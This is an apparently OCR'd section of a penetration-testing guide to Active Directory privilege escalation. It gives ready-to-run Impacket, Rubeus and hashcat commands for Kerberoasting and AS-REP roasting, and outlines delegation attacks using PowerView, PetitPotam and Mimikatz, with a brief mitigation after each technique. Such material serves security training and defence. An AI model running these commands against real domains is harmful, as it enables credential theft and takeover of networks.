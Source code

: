 

---

### ## Part 4: Domain Escalation & Lateral Movement

With enumeration data, you can now execute attacks to escalate your privileges.

### ### Kerberoasting (In-Depth)

* **Objective:** Obtain the password hash of a service account.
* **Tools & Commands:**
    * **Impacket (`GetUserSPNs.py`):**
        ```bash
        impacket-GetUserSPNs -dc-ip <DC_IP> <DOMAIN>/<USER> -request
        ```
    * **Rubeus:**
        ```powershell
        Rubeus.exe kerberoast /outfile:hashes.txt
        ```
    * **Cracking with Hashcat (Mode 13100 for Kerberos 5 TGS-REP):**
        ```bash
        hashcat -m 13100 -a 0 hashes.txt /path/to/wordlist.txt
        ```
* **Mitigation:** Use strong (25+ character) passwords or gMSAs for service accounts. Monitor for unusual service ticket requests.

### ### AS-REP Roasting (In-Depth)

* **Objective:** Obtain the password hash of a user with Kerberos preauthentication disabled.
* **Tools & Commands:**
    * **Impacket (`GetNPUsers.py`):**
        ```bash
        impacket-GetNPUsers <DOMAIN>/ -usersfile <list_of_users> -format hashcat -outputfile hashes.txt
        ```
    * **Rubeus:**
        ```powershell
        Rubeus.exe asreproast /outfile:hashes.txt
        ```
    * **Cracking with Hashcat (Mode 18200 for Kerberos 5 AS-REP):**
        ```bash
        hashcat -m 18200 -a 0 hashes.txt /path/to/wordlist.txt
        ```
* **Mitigation:** Enforce Kerberos preauthentication for all user accounts (this is the default and should not be changed).

### ### Delegation Attacks

Delegation allows a service to impersonate a user to access other resources on their behalf. If misconfigured, it's a powerful attack vector.

* **Unconstrained Delegation:** A server with this enabled can impersonate **any user** that authenticates to it (including a Domain Admin who might check on it) and access **any resource** as that user.
    1.  **Find:** Use PowerView: `Get-NetComputer -Unconstrained`
    2.  **Exploit:** Coerce a privileged user to authenticate to the compromised server (e.g., using `PetitPotam` or social engineering). Use `Mimikatz` on the server to catch the forwarded Kerberos TGT.
* **Constrained Delegation (KCD & RBCD):**
    * **KCD:** A server can impersonate users, but only to a specific list of allowed services. An attacker who compromises the server can use tools like `Rubeus` to get a service ticket for an allowed service in the name of a user.
    * **Resource-Based KCD:** The permission is on the *end resource*, not the intermediary server. If an attacker controls a computer account, they can configure RBCD to allow it to be impersonated by another account they control, effectively giving them access to the resource.